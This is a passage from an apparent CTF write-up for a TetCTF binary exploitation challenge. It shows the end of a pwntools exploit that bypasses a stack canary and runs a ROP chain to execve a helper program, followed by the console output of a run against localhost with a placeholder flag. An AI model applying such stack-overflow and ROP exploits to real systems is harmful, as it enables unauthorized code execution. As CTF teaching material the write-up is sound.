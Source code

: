 ```python
    p = remote('localhost', 4444)
    # Fix the canary.
    payload = b'\n' + b'A'* 24 + p64(canary) + b'B'*8
    # ROP Chain.
    payload += stack_rop_payload
    # This is the start of the n bytes into the buffer we referenced above.
    # We specify /tmp/give as the program to execute since it's simpler than attempting to mess with
    # the fd to get an interactive shell. We already have a reverse shell through ezflag1.
    # Also, small padding to account for the non-aligned stack we are working with.
    payload += b'/tmp/give\x00'.ljust(0x48, b'C')
    payload += rop_payload
    # Add the shellcode
    payload = payload.ljust(0x100 - 1, b'\x90')
    payload += b'\n'
    log.info('Length of payload: {}'.format(hex(len(payload))))
    p.send(payload)

    log.success('Exploit complete. Please check /tmp/flag2.')


if __name__ == '__main__':
    main()
```

We can run the exploit and grab the world-readable flag.

```console
$ ls -la /tmp/flag2
ls: cannot access '/tmp/flag2': No such file or directory
$ python exploit.py
[*] '/vagrant/tetctf/ezflag1/auth'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 120 cached gadgets for './auth'
[*] Constructed ROP payload to fix stack:
    0x0000:         0x413883 add rsp, 0x38; pop rbx; pop rbp; ret
[*] Length of ROP fix stack payload: 0x8
[*] Constructed ROP payload:
    0x0000:         0x4497a7 pop rax; ret
    0x0008:             0x3b SYS_execve
    0x0010:         0x40f67e pop rsi; ret
    0x0018:              0x0
    0x0020:         0x40176f pop rdx; ret
    0x0028:              0x0
    0x0030:         0x4012d3 syscall
[*] Length of ROP payload: 0x38
[+] Opening connection to localhost on port 4444: Done
[*] Canary: 0x9a5b80ff18293100
[*] Closed connection to localhost port 4444
[+] Opening connection to localhost on port 4444: Done
[*] Length of payload: 0x100
[+] Exploit complete. Please check /tmp/flag2.
[*] Closed connection to localhost port 4444
$ cat /tmp/flag2
TetCTF{Fake_Flag_Because_Service_Is_Down}
```

**Flag:** `Sadly, didn't solve it during the competition.`
